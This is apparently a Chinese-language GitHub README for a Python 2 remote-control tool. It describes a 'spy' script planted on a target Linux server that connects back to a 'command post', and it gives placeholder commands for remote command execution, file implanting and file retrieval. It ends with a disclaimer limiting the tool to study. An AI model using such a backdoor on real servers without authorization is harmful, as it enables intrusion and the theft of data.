

# Remote Control For Linux Server

## 1. 功能

- 远程命令

- 文件植入

- 文件获取

## 2. 使用

### 2.1. 前提

**大前提**：假设间谍脚本`spy.py`已经植入目标服务器，即已经在远端执行了`python2 spy.py -h <host> -p <port>`

### 2.2. 查看帮助

```
$ python2 ins.py
```


### 2.3. 远程命令

指挥部执行如下指令：

```shell
$ python2 ins.py -h <host> -p <port> -l <listen-num> -c
```


### 2.4. 文件获取/植入

指挥部用两个终端开放两个端口，分别用于远程命令与文件操作，以文件获取为例（如下图左侧的上、下终端）。

左上终端成功建立会话并确认间谍脚本位置后，发送如下命令，使远端与指挥部建立一个新的会话用于文件传输。

```shell
$ python2 <spy-dir> -h <host> -p <new-port> -u <up-file-dir>
```

左下终端开放新端口，等待远端与之建立连接后进行文件传输。

```shell
$ python2 ins.py -h <host> -p <new-port> -d <down-file-dir>
```


文件植入同理。

## 3. 声明

本程序仅供网络安全与socket编程相关的学习交流使用，不得用于一切不正当用途。
未经授权擅自使用，后果自负。
